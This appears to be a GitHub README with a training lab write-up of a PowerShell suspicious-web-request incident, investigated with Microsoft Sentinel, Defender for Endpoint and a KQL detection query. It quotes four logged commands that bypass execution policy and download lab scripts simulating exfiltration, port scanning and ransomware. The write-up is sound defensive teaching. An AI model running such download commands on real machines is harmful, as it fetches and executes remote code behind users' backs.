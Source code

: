 <p align="center">
  <img src="https://github.com/user-attachments/assets/4a9b499f-2301-49f5-9a60-5521b5c35fca" alt="Description" width="600">
</p>

# PowerShell-Suspicious-Web-Request

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- Microsoft Sentinel 
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)

---

##  Scenario

Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

---

## Detection & Analysis

An alert titled “Kyle – PowerShell Suspicious Web Request” was triggered on the device kylesvm. During investigation, it was discovered that the following four distinct PowerShell web requests were executed using Invoke-WebRequest to download scripts from a GitHub repository:

---

## PowerShell Commands Executed:

- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1

- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1

- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
  
- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
---

## Interview 

The incident was tied to a single user on one device. When contacted, the user reported attempting to install free software, after which a black screen appeared briefly with no noticeable outcome.

---

## Execution Confirmation

Using Microsoft Defender for Endpoint (MDE), it was confirmed that the scripts were executed on the host. The following KQL query was used to verify execution:

**Query used to locate events:**

```kql
let TargetHostname = "kylesvm";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```
---

## Malware Analysis Summary

The downloaded scripts were submitted to the malware reverse engineering team, and the following behaviors were identified:

- exfiltratedata.ps1 Generates simulated employee data, compresses it via 7-Zip, and uploads it to Azure Blob Storage to emulate data exfiltration.
- eicar.ps1 Creates the EICAR test file used to simulate antivirus detection and response mechanisms.
- portscan.ps1 Performs a network scan over a local IP range for common open ports, logging the results.
- pwncrypt.ps1 Emulates ransomware by generating fake files, encrypting them, and leaving ransom instructions on the desktop.

---
  
## Containment, Eradication & Recovery

- The affected device (kylesvm) was isolated via MDE.
- A full anti-malware scan was performed.
- No active malware was found; the device was subsequently removed from isolation. 

---

## Post-Incident Activities

- The involved user was required to complete additional security awareness training.
- The organization’s KnowBe4 security package was upgraded, and training frequency
increased.
- A new PowerShell usage policy was introduced to restrict PowerShell access for
non-essential users. 
